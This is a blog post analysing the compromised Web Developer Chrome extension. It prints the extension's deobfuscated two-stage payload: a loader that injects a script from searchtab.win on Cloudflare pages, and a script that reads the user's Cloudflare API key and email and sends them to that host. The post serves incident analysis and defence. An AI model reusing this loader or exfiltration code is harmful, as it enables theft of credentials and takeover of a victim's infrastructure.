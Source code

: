 ```yaml
---
title: "Chrome Extension Steals Cloudflare Api Tokens"
date: 2017-08-03T20:59:56-04:00

---
```



Upon receiving news that the popular Chrome Extension, Web Developer, had been compromised, I
quickly began to wonder about the what and how. Several stories exist about how the extension came
to be compromised and they touched a bit on what it did. This post is meant to expand upon, what I
believe to be, the more nefarious behavior of the extension. Since the extension calls out to an
attacker-controlled URL, the payload hosted at that URL could be changed to _anything_ at any time.

At the time of inspection, the code checks to see if the victim is on the Cloudflare domain. If it
is, it starts an XHR request to fetch the users' API token and ships it, along with the victim's
email address, to an attacker-controlled server.

## The Code
The extension contains code that, upon visiting any site, generates a dynamic URL that changes
daily. It uses an MD5 hash of the current date, using the d-m-yyyy format.

~~~text
// tomorrow's url
https://wd + md5(4-8-2017) + .win/ga.js
https://wdfefe6195a8b014a1cc7d9cf2449d1b50.win/ga.js
~~~

The following payload is fetched on every page that a victim navigates to. The payload is encoded and
minified. Expanding it reveals the following portion:

~~~javascript.prettyprint
if (top['location']['href']['indexOf']('cloudflare.com') > -1) {
  (function () {
    var _0xb2b9x1 = document['createElement']('script');
    _0xb2b9x1['type'] = 'text/javascript';
    _0xb2b9x1['src'] = '//searchtab.win/ga.js';
    var _0xb2b9x2 = document['getElementsByTagName']('script')[0];
    _0xb2b9x2['parentNode']['insertBefore'](_0xb2b9x1, _0xb2b9x2)
  })()
} else {...
~~~

The first-stage payload checks whether the victim is currently on cloudflare.com. If they are, it
creates a new script tag on the page and sets its source to `//searchtab.win/ga.js`. This downloads
stage 2 of the payload. If we look, we get the following script:

~~~javascript.prettyprint
var xmlhttp = new XMLHttpRequest();
xmlhttp.open('GET', 'https://www.cloudflare.com/api/v4/user/api_key', true);
xmlhttp.setRequestHeader("x-atok", window.bootstrap.atok);
xmlhttp.onreadystatechange = function() {
  if (xmlhttp.readyState == 4) {
    if(xmlhttp.status == 200) {
      var obj = JSON.parse(xmlhttp.responseText);
      var key = obj.result.api_key;
      console.log(key);
      (new Image).src = '//searchtab.win/ga.php?user=' +
        encodeURIComponent(window.bootstrap.data.user.email) + '&key=' + encodeURIComponent(key);
    }
  }
};
xmlhttp.send(null);
~~~

This second-stage payload `GET`s the logged in user's API key then sends it, and the user's email,
along to the `searchtab.win` domain.

This was clearly a targeted attack against professional Web Developers. Web Developers will
sometimes have access to production accounts on their employer's infrastructure. Though more common
in smaller companies that don't have dedicated DevOps and/or Security teams, it's not impossible
for bigger companies to fall prey.

With a valid API token, attackers could control a company's public-facing infrastructure and
create or modify sub/domains.

We've currently blocked all outgoing requests to `*.win/ga.js` and asked our developers to update
to version 0.5 of the Web Developer extension.


